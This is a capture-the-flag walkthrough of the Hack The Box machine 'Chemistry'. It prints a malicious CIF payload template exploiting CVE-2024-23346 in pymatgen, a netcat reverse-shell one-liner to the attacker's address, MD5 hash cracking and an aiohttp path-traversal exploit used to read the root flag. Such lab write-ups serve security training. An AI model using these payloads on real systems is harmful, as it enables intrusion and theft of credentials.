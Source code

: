 ![image](https://github.com/user-attachments/assets/81146324-46a2-4112-a69d-7cd2f5ea7918)

<br>

**PLATFORM : Hack The Box**

**BOX : Chemistry**

**DIFFICULTY : Easy**

**OS : Linux**

**AUTHOR: Francesco Basile**

<br><br>

The inital nmap scans reveals two ports open, 22 and 5000.

<br>

`$ nmap -sVC --version-intensity 9 -p 22,5000 -Pn --disable-arp-ping -n chemistry -oN nmap/versions-scan.txt`

`Starting Nmap 7.80 ( [https://nmap.org](https://nmap.org/) ) at 2024-10-22 23:37 CEST`  
`Nmap scan report for chemistry (10.10.11.38)`  
`Host is up (0.51s latency).`

`PORT STATE SERVICE VERSION`  
`22/tcp open ssh OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)` 
`5000/tcp open upnp?` 
`| fingerprint-strings:`  
`| GetRequest:`  
`| HTTP/1.1 200 OK`  
`| Server: Werkzeug/3.0.3 Python/3.9.5`  
`| Date: Tue, 22 Oct 2024 21:37:54 GMT`  
`| Content-Type: text/html; charset=utf-8`  
`| Content-Length: 719`  
`| Vary: Cookie`  
`| Connection: close`  
`|`
`| class="title">Chemistry CIF Analyzer`  
`|`
`Welcome to the Chemistry CIF Analyzer. This tool allows you to upload a CIF (Crystallographic Information File) and analyze the structural data contained within.`

`<---SNIP--->`


<br><br>

The application hosted on the box at port 5000 looks like a parser for *Crystallographic Information Files (CIF)*.

<br>

![Pasted image 20241023002915-1](https://github.com/user-attachments/assets/b84120fa-fbe7-4534-844a-105686aa94f8)

<br><br>

Surfing the web i find the recent *CVE-2024-23346* 

https://ethicalhacking.uk/cve-2024-23346-arbitrary-code-execution-in-pymatgen-via-insecure/#gsc.tab=0

A vulnerability in the parsing library *Pymatgen versions prior to 2024.2.8*, that executes arbitrary code via *insecure serializazion*.

All you need to do is craft a malicious .cif file, and then inject the command you want to execute in it. We have a template of the file's structure in the link above:

<br>

> data_Example
>
> audit_creation_date            2018-06-08
> 
> _audit_creation_method          "Pymatgen CIF Parser Arbitrary Code Execution Exploit"
> 
> loop
> 
> parent_propagation_vector.id
> 
> _parent_propagation_vector.kxkykz
> 
> k1 [0 0 0]
> 
> 
> _space_group_magn.transform_BNS_Pp_abc  'a,b,[d for d in ()._class_._mro_[1]._getattribute_ ( *[().__class__.__mro__[1]]+["_sub" + "classes_"]) () if d._name_ == "BuiltinImporter"][0].load_module ("os").system ("<INSERT_PAYLOAD>");0,0,0'
> 
> 
> 
> _space_group_magn.number_BNS  62.448
> 
> _space_group_magn.name_BNS  "P  n'  m  a'  "
> 
> 

<br><br>

Experimenting with an active handler and a series of bash payloads from https://www.revshells.com/, i find the right one to be:

<br>

> *busybox nc 10.10.15.56 1337 -e sh*

<br><br>

Which allows me to gain a reverse shell:

<br>

![Pasted image 20241023004209-1](https://github.com/user-attachments/assets/863f5c8e-9fd9-4335-832c-3b353981df40)


<br><br>

Checking the app's directory, i'm able to retrieve the .db database that has stored all the *users passwords md5 hashes*, encoded with the following algorythm, as i can read in the *app.py* file.

<br>

>    hashed_password = hashlib.md5(password.encode()).hexdigest()

<br><br>

![Pasted image 20241023010333-1](https://github.com/user-attachments/assets/4d608551-6f3c-4efa-aa7f-12c6edfd4eac)

<br>

![Pasted image 20241023010740-1](https://github.com/user-attachments/assets/23efb1d7-f3bc-4c83-90d7-86ee6a9ee831)

<br>

A quick hop to https://crackstation.net reveals me the cleartext password of rosa's user:

<br>

![Pasted image 20241102202421](https://github.com/user-attachments/assets/f75f982e-c7e4-4475-aaef-a51aa3d913ff)

<br><br>

I get an initial foothold on the machine. I have credentials to access ssh:

<br>

> *rosa:<ROSA'S_PASSWORD>*

<br><br>

Running linpeas.sh on the machine, i find out a *service listening on port 8080*, localhost

<br>

![Pasted image 20241023012150-2](https://github.com/user-attachments/assets/e23684f0-94c2-458f-bc70-886c0c5d34ca)

<br><br>

To enumerate this service, i make up an *SSH tunneling* to our remote host, using the following command:

<br>

`ssh -L 8080:localhost:8080 rosa@10.10.11.38`

<br><br>

This forwards *my local* 8080 port  to the remote machine's local 8080 port. 

<br>

(Attacking Box 127.0.0.1:8080 ----> Victim Box 127.0.0.1:8080)

<br>

It basically means that i can direct external traffic, like a scan or even access the service from a browser if possible, to an internal service on a remote machine that otherwise would be accessible only from the box itself.
Nmap shows me that Chemistry is running *aiohttp 3.9.1*...

<br>

![Pasted image 20241102200205](https://github.com/user-attachments/assets/cf5b4ec4-b9b7-4c90-b592-e9532b9966f0)

<br><br>

...and this is the first result if i search it on google:

<br>

https://github.com/z3rObyte/CVE-2024-23334-PoC

<br><br>

It looks like aiohttp software it is vulnerable to *path traversal* up to version *3.9.1*. I'm going to modify a bit the script to make it run on *my* localhost's port 8080 and redirecting the exploit to the internal service, trying to read *root's flag*. 

<br>

![Pasted image 20241102200634](https://github.com/user-attachments/assets/ade0fe67-0d57-48da-a028-0c308f1ffe52)

<br><br>

And...

<br>

![Pasted image 20241102201153](https://github.com/user-attachments/assets/40bfecd8-d215-4b34-abe2-ae06e139e189)

<br><br>

Success! I have partial root access that can be leveraged to a shell and eventual full compromise of the box!
